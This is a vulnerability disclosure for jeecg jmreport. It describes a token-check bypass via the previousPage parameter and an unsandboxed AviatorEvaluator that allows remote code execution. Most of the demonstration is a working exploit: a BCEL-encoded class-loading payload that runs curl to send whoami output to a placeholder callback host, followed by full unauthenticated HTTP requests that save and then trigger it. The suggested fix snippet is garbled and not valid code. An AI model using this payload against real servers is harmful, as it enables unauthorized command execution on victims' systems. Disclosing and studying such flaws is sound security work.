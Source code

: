 # jeecg jmreport Unauthorized AviatorEvaluator Leads to RCE Vulnerability

reporter: root012,

## Vulnerability Analysis:

Cause of Unauthorized Privilege Escalation:

The issue arises from a flaw in the JimuReportTokenInterceptor class within the jmreport component of Jeecg, where there is an error in the authentication logic. The validation of the token's validity is performed after checking the `previousPage` parameter to determine if it should be returned. If the `previousPage` parameter is directly provided, it leads to bypassing the token check, thereby allowing unauthorized privilege escalation.

![image-20240815214735901](file://C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240815214735901.png?lastModify=1723735370)

The next step involves checking the `previousPage` parameter

![image-20240815214826809](file://C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240815214826809.png?lastModify=1723735381)



When the `previousPage` parameter is passed, the identity check immediately returns `true`, thereby bypassing the token validation. This allows an attacker to circumvent the intended security checks by simply providing a `previousPage` parameter.





Reason for Command Execution (RCE):

In Jeecg, the `ExpressUtil` class uses `AviatorEvaluator` to execute expressions directly without configuring any security policies. This lack of security measures leads to a potential AviatorScript injection vulnerability, where an attacker can execute arbitrary static methods by default.

![image-20240815215220727](file://C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240815215220727.png?lastModify=1723735395)

![image-20240815215430223](file://C:\Users\PC123\AppData\Roaming\Typora\typora-user-images\image-20240815215430223.png?lastModify=1723735409)

Recommendations for Vendors to Address the Issue:

https://github.com/apache/hertzbeat/commit/8dcf050e27ca95d15460a7ba98a3df8a9cd1d3d2



```


​```
 AviatorEvaluatorInstance instance = AviatorEvaluator.getInstance();
        // 配置AviatorEvaluator使用LRU缓存编译后的表达式
        instance
                .useLRUExpressionCache(AVIATOR_LRU_CACHE_SIZE)
                .addFunction(new StrEqualFunction());

        // 配置Aviator语法特性集合
        instance.setOption(Options.FEATURE_SET,
                Feature.asSet(Feature.If,
                        Feature.Assignment,
                        Feature.Let,
                        Feature.StringInterpolation));

        // 配置自定义aviator函数
        instance.addOpFunction(OperatorType.BIT_OR, new AbstractFunction() {
            @Override
            public AviatorObject call(final Map<String, Object> env, final AviatorObject arg1,
                                      final AviatorObject arg2) {
           public String getName() {
            }
        });

        instance.addFunction(new StrContainsFunction());
        instance.addFunction(new ObjectExistsFunction());
        instance.addFunction(new StrMatchesFunction());
​```
```



## Vulnerability Demonstration: 

Writing to a Table via Unauthenticated Access

To demonstrate the vulnerability, I will use `curl` with additional data to exploit the unauthenticated access and write to a table. Here’s how it can be done:

payload：

```
=((c=(Class.forName('$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3dCK$5bk$95$97$f8$7e$c4$95$c0$c2$s$c6$j$c6$NjbR$c5$88a\_$ca$E$86$40k$da$c1$f0Y$baQ$e3$c2$P$f0$a3$8cw$w$B$a2M$e6$de9$e7$9es$e6$a6\_$df$l$9f$ANq$60$p$8b$b2$8dul$a8$b2ib$cb$c46$83q$sB$n$cf$Z$b4J$b5$cd$a07$a2$$g$c8y$o$e4$b7$e3Q$87$c7$P$7egHL$d1$8b$C$7f$d8$f6c$a1$f0$94$d4e\_$q$MY$afqsQ$t$c8$t$3c$608$aax$D$ff$c9w$87$7e$d8s$5b2$Wa$af$5e$5d$a0$ee$e2$u$e0IB$G$z$YuU$f4$3f9$83$7d9$J$f8$a3$UQ$98$98$d8$n$dc$8a$c6q$c0$af$84z$d7$a2$f7$8e$95$c9$81$B$d3$c4$ae$83$3d$ec$3bX$c1$w$85$d2$90$n$3f$cflv$G$3c$90$M$a5$94$S$91$7b$dd$9c$853$U$e6$c2$fbq$u$c5$88$f2$ed$k$973P$ae$y$$$3f$a5$eb8$84N$7fT$7d$Z0$b5$GU$8b$90K$9dQ$cf$d6$de$c0$5e$d2$f1$SU$p$r5$d8T$9d\_$B$96$e9$G$9a$d2$da$a4R$e6$934$M$b0$de$91$a9$bdB$7b$fe$e37$W$fc$Wr$c8S$\_$d0$d1$89$v$d2$v$a5$fa$b5$l$d5$l$f2$9c$f6$B$A$A',true,new com.sun.org.apache.bcel.internal.util.ClassLoader()))) + ( c.exec('curl http://ip.port.xxx.xxx.io/`whoami`')))
```



```
POST /jeecg-boot/jmreport/save?previousPage=xxx&jmLink=YWFhfHxiYmI=&token=123 HTTP/1.1
Host: x.x.x.x:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Content-Length: 3456
 
 
{
    "loopBlockList": [],
    "area": false,
    "printElWidth": 718,
    "excel_config_id": "980882669965455363",
    "printElHeight": 1047,
    "rows": {
        "4": {
            "cells": {
                "4": {
                    "text": "=((c=(Class.forName('$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3dCK$5bk$95$97$f8$7e$c4$95$c0$c2$s$c6$j$c6$NjbR$c5$88a\_$ca$E$86$40k$da$c1$f0Y$baQ$e3$c2$P$f0$a3$8cw$w$B$a2M$e6$de9$e7$9es$e6$a6\_$df$l$9f$ANq$60$p$8b$b2$8dul$a8$b2ib$cb$c46$83q$sB$n$cf$Z$b4J$b5$cd$a07$a2$$g$c8y$o$e4$b7$e3Q$87$c7$P$7egHL$d1$8b$C$7f$d8$f6c$a1$f0$94$d4e\_$q$MY$afqsQ$t$c8$t$3c$608$aax$D$ff$c9w$87$7e$d8s$5b2$Wa$af$5e$5d$a0$ee$e2$u$e0IB$G$z$YuU$f4$3f9$83$7d9$J$f8$a3$UQ$98$98$d8$n$dc$8a$c6q$c0$af$84z$d7$a2$f7$8e$95$c9$81$B$d3$c4$ae$83$3d$ec$3bX$c1$w$85$d2$90$n$3f$cflv$G$3c$90$M$a5$94$S$91$7b$dd$9c$853$U$e6$c2$fbq$u$c5$88$f2$ed$k$973P$ae$y$$$3f$a5$eb8$84N$7fT$7d$Z0$b5$GU$8b$90K$9dQ$cf$d6$de$c0$5e$d2$f1$SU$p$r5$d8T$9d\_$B$96$e9$G$9a$d2$da$a4R$e6$934$M$b0$de$91$a9$bdB$7b$fe$e37$W$fc$Wr$c8S$\_$d0$d1$89$v$d2$v$a5$fa$b5$l$d5$l$f2$9c$f6$B$A$A',true,new com.sun.org.apache.bcel.internal.util.ClassLoader()))) + ( c.exec('curl http://ip.port.xxx.xxx.io/`whoami`')))",
                    "style": 0
                }
            },
            "height": 25
        },
        "len": 96,
        "-1": {
            "cells": {
                "-1": {
                    "text": "${gongsi.id}"
                }
            },
            "isDrag": true
        }
    },
    "dbexps": [],
    "toolPrintSizeObj": {
        "printType": "A4",
        "widthPx": 718,
        "heightPx": 1047
    },
    "dicts": [],
    "freeze": "A1",
    "dataRectWidth": 701,
    "background": false,
    "name": "sheet1",
    "autofilter": {},
    "styles": [
        {
            "align": "center"
        }
    ],
    "validations": [],
    "cols": {
        "4": {
            "width": 95
        },
        "len": 50
    },
    "merges": [
        "E4:F4",
        "B4:B5",
        "C4:C5",
        "D4:D5",
        "G4:G5",
        "H4:H5",
        "I4:I5",
        "D1:G1",
        "H3:I3"
    ]
}
```



Afterward, through unauthenticated access to the table, trigger the AviatorScript code execution vulnerability.

```
POST /jeecg-boot/jmreport/show?previousPage=xxx&jmLink=YWFhfHxiYmI= HTTP/1.1
Host: x.x.x.x:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Content-Length: 42
 
 
{
    "id": "980882669965455363"
}
```

